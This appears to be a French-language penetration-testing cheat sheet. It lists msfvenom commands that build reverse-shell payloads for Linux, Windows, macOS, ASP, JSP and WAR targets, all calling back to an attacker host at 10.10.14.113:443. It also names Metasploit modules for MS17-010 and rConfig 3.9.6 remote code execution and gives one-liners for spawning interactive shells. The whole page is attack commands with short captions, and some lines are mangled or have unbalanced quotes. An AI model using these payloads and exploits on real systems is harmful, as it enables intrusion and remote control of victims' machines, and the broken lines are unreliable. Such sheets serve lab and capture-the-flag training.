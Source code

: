 ```shell
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`
```shell
### Commande MSFvenom utilisée pour générer un payload stageless de shell inverse basé sur Windows
```bash
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`
```shell
### Commande MSFvenom utilisée pour générer un payload de shell inverse basé sur MacOS
```bash
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`
```shell
### Commande MSFvenom utilisée pour générer un payload de shell inverse web ASP
```bash
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`
```shell
### Commande MSFvenom utilisée pour générer un payload de shell inverse web JSP
```bash
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`
```shell
### Commande MSFvenom utilisée pour générer un payload de shell inverse web compatible java/jsp au format WAR
```bash
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`
```shell
### Module d'exploit Metasploit utilisé pour vérifier si un hôte est vulnérable à ms17_010
```bash
`use auxiliary/scanner/smb/smb_ms17_010`
```shell
### Module d'exploit Metasploit utilisé pour obtenir une session shell inverse sur un système Windows vulnérable à ms17_010
```bash
`use exploit/windows/smb/ms17_010_psexec`
```shell
### Module d'exploit Metasploit qui peut être utilisé pour obtenir un shell inverse sur un système Linux vulnérable hébergeant rConfig 3.9.6
```bash
`use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`
```shell
### Commande Python utilisée pour générer un shell interactif sur un système Linux
```bash
`python -c 'import pty; pty.spawn("/bin/sh")'`
```shell
### Génère un shell interactif sur un système Linux
```bash
`/bin/sh -i`
```shell
### Utilise perl pour générer un shell interactif sur un système Linux
```bash
`perl —e 'exec "/bin/sh";'`
```shell
### Utilise ruby pour générer un shell interactif sur un système Linux
```bash
`ruby: exec "/bin/sh"`
```shell
### Utilise Lua pour générer un shell interactif sur un système Linux
```bash
`Lua: os.execute('/bin/sh')`
```shell
### Utilise la commande awk pour générer un shell interactif sur un système Linux
```bash
`awk 'BEGIN {system("/bin/sh")}'`
```shell
### Utilise la commande find pour générer un shell interactif sur un système Linux
```bash
`find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
```shell
### Une autre façon d'utiliser la commande find pour générer un shell interactif sur un système Linux
```bash
`find . -exec /bin/sh \; -quit`
```